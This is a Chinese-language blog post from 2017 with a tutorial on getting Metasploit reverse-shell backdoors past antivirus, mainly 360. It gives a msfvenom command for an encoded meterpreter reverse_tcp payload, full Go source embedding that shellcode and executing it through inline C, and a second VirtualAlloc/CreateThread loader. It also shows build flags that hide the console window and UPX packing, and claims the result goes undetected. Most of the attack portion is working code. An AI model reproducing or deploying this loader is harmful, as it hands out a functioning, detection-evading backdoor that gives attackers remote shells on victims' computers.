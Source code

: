 ```yaml
---
title: 关于msf反弹后门的免杀Tips
date: 2017-04-20 13:09:24
tags:
- Hacker
categories:
- Hacker
---
```


msf是一个很强大的工具，我经常会在渗透用它来反弹shell，不过它生成的反弹后门会被不少杀软kill，这篇文章只是讲讲我在msf中一个简单的免杀小技巧
<!--more-->
## 思路
我以前接触过一款python的远控，其实说是远控，基本也就是nc的功能加了一个服务端的web页面控制并加了一些其他的功能可以用来管理诸多客户机
这款远控我下载下来用过，并用pyinstaller打包成了exe（缺点是体积太过庞大），惊奇的是，360不杀它，然后自己想着其他语言是不是也会这样，于是我用golang写了一个简易版nc反弹，编译之后，也是不查杀的。python和golang有一个共同点，就是可以用来内联C编程，所以C语言的shellcode按理说应该会达到同样的效果

## 得到shellcode
```bash
msfvenom -p windows/meterpreter/reverse_tcp LPORT=5555 LHOST=192.168.1.100 -e x86/shikata_ga_nai -i 11 -f py > 1.py
```
建议是生成32位的，如果想生成64位也可以，`-e x86/shikata_ga_nai -i 11`是指用`x86/shikata_ga_nai`编码迭代11次，然后生成py文件
py文件打开是shellcode，我们接下来对它进行一点小改造，对于python去执行shellcode的方法，相信小伙伴都已经不陌生，在《python灰帽子》中有讲解，我今天要使用的是golang，其实个人认为golang执行shellcode的代码是更简洁的

## Golang环境搭建
安装Golang32位（建议32位，与前面对应，在测试过程中，如果32位shellcode配合64位golang加32位gcc，就算把golang的GOARCH改为386也依旧会失败，建议一一对应），安装gcc32位（可以使用[TDM-GCC](http://tdm-gcc.tdragon.net/download)）

## 代码编写
```Golang
package main

/*
void call(char *code) {
    int (*ret)() = (int(*)())code;
    ret();
}
*/
import "C"
import "unsafe"

func main() {
    buf := ""
    buf += "\xdd\xc6\xd9\x74\x24\xf4\x5f\x33\xc9\xb8\xb3\x5e\x2c"
    buf += "\xc9\xb1\x97\x31\x47\x1a\x03\x47\x1a\x83\xc7\x04\xe2"
    buf += "\x46\x84\xfd\x72\xee\x0e\xb5\x96\x37\x04\x6d\x63\x9f"
    buf += "\xcc\xa4\x3a\x8e\x8c\xf7\x39\x81\xca\xe4\x42\xff\xce"
    buf += "\xa3\xa2\xdb\x06\xc0\x3f\xaf\x41\x73\xba\xf7\x20\x13"
    buf += "\x98\x8c\xff\xfa\x0a\xda\x6e\xf2\x6d\xc3\x81\x07\xc0"
    buf += "\x1b\x37\xeb\xa2\xa9\x32\x71\xaf\xe9\x20\xd1\xaa\x9e"
    buf += "\xbd\x82\xf3\x81\x1f\xab\xbf\xc4\xd9\x6c\x75\x37\x3a"
    buf += "\x53\x78\x90\x79\xaf\x93\x1b\xb3\x15\x09\xe5\x45\x5c"
    buf += "\x26\x0f\x0d\x16\x52\xf1\x8a\x7e\x8b\xc4\x50\x8e\x0a"
    buf += "\x38\x2f\x2b\x40\x73\x0b\xf0\x51\x5f\xc6\xbf\x04\x47"
    buf += "\x80\x36\xe5\x88\x88\xb3\xfc\xa0\x52\xfe\x92\x81\x8d"
    buf += "\x89\xf2\x6a\xcc\x7f\x9a\xe9\x1a\x30\x73\xa3\x63\x42"
    buf += "\x10\xe9\xcf\x62\xe4\x06\x52\xe1\x8d\x88\xfe\x52\xc4"
    buf += "\xc3\xed\x7a\x0e\x66\x5f\x8c\x2c\xef\xfa\xbd\x8c\x79"
    buf += "\x6c\x01\xe3\x5c\xde\xc4\x8a\x4c\x7d\x34\x32\xb5\x23"
    buf += "\x56\x6c\x52\x3f\x15\x26\x6a\xf8\x6b\x81\x2c\x23\x8d"
    buf += "\x41\x6e\x24\x30\xc6\xcb\xba\x26\xd4\x3b\x37\xd3\xc6"
    buf += "\xa8\x5a\x16\x8f\x1e\x27\xca\xcb\xda\x7f\x74\x62\xb2"
    buf += "\x62\xa6\xb1\xfc\x64\x53\x3a\xa7\xa4\x21\x3d\x79\x08"
    buf += "\x06\x74\x2a\xa2\xe7\x0d\x68\x16\xa3\x96\xe5\xad\x32"
    buf += "\x10\xa3\x0f\x49\xc3\x69\xa7\x5b\x61\x1a\xf8\x1d\x9e"
    buf += "\x9b\x3a\x00\xfc\x18\xc3\x42\x1a\xd6\x44\x5d\xfe\xc5"
    buf += "\xb6\x68\xd2\xad\x24\xda\x74\xa7\xf3\x66\x9a\x42\x7a"
    buf += "\x50\xf0\x0b\x47\xbc\xad\x6c\x1e\xca\xbe\x90\xca\xc3"
    buf += "\x8e\x5b\xde\x66\xe2\xb3\x20\x6f\x38\x17\xc1\xac\xfb"
    buf += "\xd3\x2f\x91\xa7\xff\x65\xd7\xd0\x25\x4c\xd4\xb3\x35"
    buf += "\x38\xa1\x82\xb8\x23\x42\xe9\xa5\x95\x8e\xc4\x35\xca"
    buf += "\x92\xfe\xde\x62\x70\xd6\x7a\x7f\xfd\xfb\xf0\x24\xbd"
    buf += "\x5d\x6d\x3d\x13\xbc\x1d\x25\x54\x9d\x0e\x68\xc8\x9a"
    buf += "\x10\x87\xf0\xc9\xac\x37\x57\x84\x23\x5f\x8a\xc0\xab"
    buf += "\x52\x6e\xae\x79\xa2\xdb\xff\xd8\x41\x28\x8b\xd3\x9d"
    buf += "\x68\x3c\x55\xf2\xfe\x0c\x8a\x38\xdf\xb3\x80\x9b\x70"
    buf += "\x2b\x4e\xe1\xfa\x0b\xfe\xf5\xc3\x1a\x0d\x83\xb0\x69"
    buf += "\xd0\x68\xfb\xe0\xae\xbd\x56\x52\x17\x9a\xf8\x8f\xc0"
    buf += "\x14\x8c\xb0\xf7\x0e\x87\xfa\x54\xf4\x04\x4a\x5a\xc8"
    buf += "\x89\x57\x0e\xbf\x7a\x76\x9b\xfe\xb8\x5f\x31\x42\xec"
    buf += "\xaf\x18\x9e\x3f\xf0\x09\x79\x86\xb3\x08\x29\x50\xfd"
    buf += "\xc3\x46\x7d\x24\x51\x5b\xd0\x81\x19\x6f\xc2\x2c\x17"
    buf += "\xab\xa3\xb7\xd9\x6f\x82\xd9\x37\x5f\x38\x01\xd8\xfd"
    buf += "\xfd\x11\x22\x61\xd0\x92\x45\x37\x4f\x6c\x4e\x91\x3b"
    buf += "\x42\x07\xc5\x77\xdc\x52\xd6\xc7\x9d\x7b\x62\xba\x1c"
    buf += "\x62\x3c\xde\xad\x96\x03\x55\xde\x9d\x52\x5c\x5d\x0c"
    buf += "\x73\x0e\xc3\x4c\xae\x7d\x1c\x7c\x64\xaf\xbb\xce\xa6"
    buf += "\x02\x0e\xb1\x51\xc4\x2d\x1b\x6b\xb7\x7c\xd9\x4b\xc3"
    buf += "\x8c\x43\xd6\x1b\x2a\x4f\x5e\x0a\x9a\xd5\x4d\x45\x64"
    buf += "\x6c\x0c\xc8\xf5\x59\xd7\x45\x36\x85\x99\x8d\x34\x65"
    buf += "\x21\xd3\x3b\x35\xce\x22\x29\x0c\x4e\xca\x48\x3f\x55"
    buf += "\x5d\x1b\xda\x35\xc1\x2d"
    // at your call site, you can send the shellcode directly to the C
    // function by converting it to a pointer of the correct type.
    shellcode := []byte(buf)
    C.call((*C.char)(unsafe.Pointer(&shellcode[0])))
}
```
以上就是全部代码
其实Golang还有个执行shellcode的方法是不用内联C语言的，但是我这边测试能接到反弹shell，但是执行命令会直接断开，代码我也贴出来
```Golang
package main

import (
    "syscall"
    "unsafe"
)

func ThreadExecute(Shellcode []byte) {
    var K32 = syscall.MustLoadDLL("kernel32.dll")
    var CreateThread = K32.MustFindProc("CreateThread")
    var VirtualAlloc = K32.MustFindProc("VirtualAlloc")
    var WaitForSingleObject = K32.MustFindProc("WaitForSingleObject")

    Addr, _, _ := VirtualAlloc.Call(0, uintptr(len(Shellcode)), MEM_RESERVE|MEM_COMMIT, PAGE_EXECUTE_READWRITE)
    AddrPtr := (*[990000]byte)(unsafe.Pointer(Addr))

    for i := 0; i < len(Shellcode); i++ {
        AddrPtr[i] = Shellcode[i]
    }

    ThreadAddr, _, _ := CreateThread.Call(0, 0, Addr, 0, 0, 0)
    WaitForSingleObject.Call(ThreadAddr, 0xFFFFFFFF)
}
```
关于断开的原因，希望找出原因的能告知我一下，其实我们会发现，内联C是比较简单的

## 杀毒测试
在代码所在目录cmd执行`go build`得到二进制文件（或者可以用`go build -ldflags="-s -w"`减小体积，`go build -ldflags="-H windowsgui -s -w"`去掉命令窗口）
![](https://ooo.0o0.ooo/2017/04/20/58f840f0e9a00.png)
![](https://ooo.0o0.ooo/2017/04/20/58f840f8a704c.png)

可以看到360的静态查杀和动态查杀都没有发现
那么是否正常工作呢
![](https://ooo.0o0.ooo/2017/04/20/58f840f6d4862.png)

可以看到完全是没问题的，体积比python编译出来的小的多，编译出来是500多kb，然后经过upx压缩了一下（测试upx压缩后功能依旧正常），降低到了200多kb
![](https://ooo.0o0.ooo/2017/04/20/58f840dbdc23f.png)

## 视频
{% bilibili "aid:9975200" "quality:high" "danmaku" "allowfullscreen" %}
